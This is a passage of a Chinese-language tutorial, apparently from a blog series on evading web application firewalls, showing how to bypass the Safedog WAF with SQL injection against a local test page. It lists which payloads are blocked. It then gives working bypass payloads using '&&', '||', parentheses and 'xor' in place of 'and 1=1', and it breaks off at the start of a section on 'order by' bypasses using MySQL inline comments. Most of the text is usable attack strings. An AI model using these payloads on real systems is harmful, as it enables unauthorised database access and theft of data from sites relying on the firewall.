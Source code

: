 ## 绕过拦截and 1=1

首先先稍微测试一番,发现存在安全狗

```url
http://127.0.0.1/test.php?id=1  and 1=1%23
```

![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/8.png)

```TXT
and  1	拦截
and  '1'    拦截  
and  a	不拦截 
and  'a'    拦截  
and  !	不拦截 
and  1+1    拦截  
and  1+a    拦截  
and  hex(1)  不拦截
```

通过测试我们发现当 and 后面跟上 数字型和字符型时他会给我们拦截掉 ，其实我们在安全狗的规则里面可以看到他拦截 and 和 or 所以我们有2个思路

* 用其他字符替换 and 或者 or
* 带入的不是字符串和数字型，带入一个特殊符号
* 

针对第一种我们可以去看看运算符号 随便找到几个| ^ xor & / * && || 等等还有很多

```TXT
与运算 a & b  , 
或运算 a | b ,  
异或运算 a ^ b
```

那么可以试着将and替换成&&,URL编码得到%26%26,将1=1替换成true或者false,发现可以成功绕过

```url
http://127.0.0.1/test.php?id=1' %26%26 true%23
```

![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/9.png)

另外在分享一些可以绕过目前版本的安全狗测试payload (注:mysql支持&& || ,oracle不支持 && ||）

```TXT
http://127.0.0.1/test.php?id=1'  || true%23         //将and 1=1替换为|| true,也可以绕过安全狗
http://127.0.0.1/test.php?id=1'   ||(1) %23 		//使用括号代替空格绕过
//异或逻辑运算符xor，运算法则是：两个条件相同（同真或同假）即为假（0），两个条件不同即为真（1）
http://127.0.0.1/test.php?id=1'  xor 1%23			
http://127.0.0.1/test.php?id=1'  xor true%23
```

## 绕过order by查询

判断查询字段,使用mysql的<code>\/\*\!\*\/</code>内敛注释去绕过防护,而其中的代码是可以正常执行的
